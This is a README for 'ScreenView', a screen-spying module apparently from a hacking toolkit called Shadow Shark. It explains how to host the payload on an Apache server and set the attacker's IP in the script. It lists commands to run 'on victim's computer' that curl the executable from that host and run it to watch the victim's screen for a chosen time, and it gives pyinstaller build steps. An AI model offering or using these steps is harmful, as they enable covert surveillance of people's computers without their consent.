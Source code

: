 # ScreenView
Shadow Shark ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
```
### Arch
```
$ sudo pacman -S git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
```

## Usage
### ScreenView.py
This module can run on Windows and MacOS. To configure the payload go to line 40 and replace IP with your IP.
### On victim's computer
```
$ curl http://IP/ScreenView/ScreenView.(exe, app, ect)
$ ScreenView.(exe, app, ect) --time (time in minutes to view the victim's screen)
```

## Compilation
This module must be compiled on a Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Windows computer, Wine environment or MacOS computer.
$ pip install pyinstaller
$ pyinstaller --onefile --icon icon.ico ScreenView.py
